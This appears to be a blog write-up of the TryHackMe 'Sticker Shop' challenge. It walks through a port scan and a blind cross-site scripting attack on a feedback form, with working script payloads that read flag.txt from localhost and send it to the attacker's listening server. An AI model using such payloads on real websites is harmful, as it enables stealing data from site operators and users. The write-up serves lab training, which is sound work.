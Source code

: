 ```yaml
---
title: TryHackMe - The Sticker Shop
author: rene
description: A simple walkthrough on using ❌ Cross-Site Scripting for this challenge #
categories: [TryHackMe]
tags: [web, xss]     # TAG names should always be lowercase
render_with_liquid: false
image:
    path: /images/tryhackme_the_sticker_shop/room_image.png
---
```

Can you exploit the sticker shop in order to capture the flag?

[![Tryhackme Room Link](/images/tryhackme_the_sticker_shop/room_card.png){: width="300" height="300" .shadow}](https://tryhackme.com/room/thestickershop){: .center }

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Let’s start by scanning open ports:

```console
nmap -T4 -n -sC -sV -Pn -p- 10.10.10.243
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As the backup http port is open we can visit the website via `10.10.10.243:8080`

Let’s try to visit `10.10.10.243:8080/flag.txt`
![Slash Flag.txt](/images/tryhackme_the_sticker_shop/slash-flagtxt.png){: width="600" height="450" .shadow}


Let's visit Feedback subpage
![Submit Page](/images/tryhackme_the_sticker_shop/form.png){: width="600" height="450" .shadow}

Let's try some XSS

Let's host a python server and try to fetch our attacker machine via script
```console
python3 -m http.server 8000
```

And Submit our script

```console
</textarea><script>fetch('http://10.11.75.122:8000');</script>
```

We've got a response meaning we have a Blind XSS vulnerability

![Submit Page](/images/tryhackme_the_sticker_shop/xss_to_myself.png){: width="600" height="450" .shadow}

Now we can try to craft a payload which will look like this
```console
</textarea><script>async function a() {const res1 = await fetch('http://127.0.0.1:8080/flag.txt');const b = await res1.text();const res2 = await fetch('http://10.11.75.122:8000?a=' + b);}a();</script>
```

##### Breakdown:

1. Fetches `flag.txt` from `http://127.0.0.1:8080/flag.txt`.
2. Reads its contents as text.
3. Sends the stolen content as a query parameter (`a=<OUR_FLAG>`) to `http://10.11.75.122:8000` (Our Attacker Machine).

Which will give us the flag

![Submit Page](/images/tryhackme_the_sticker_shop/flag.png){: width="600" height="450" .shadow}

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
</style>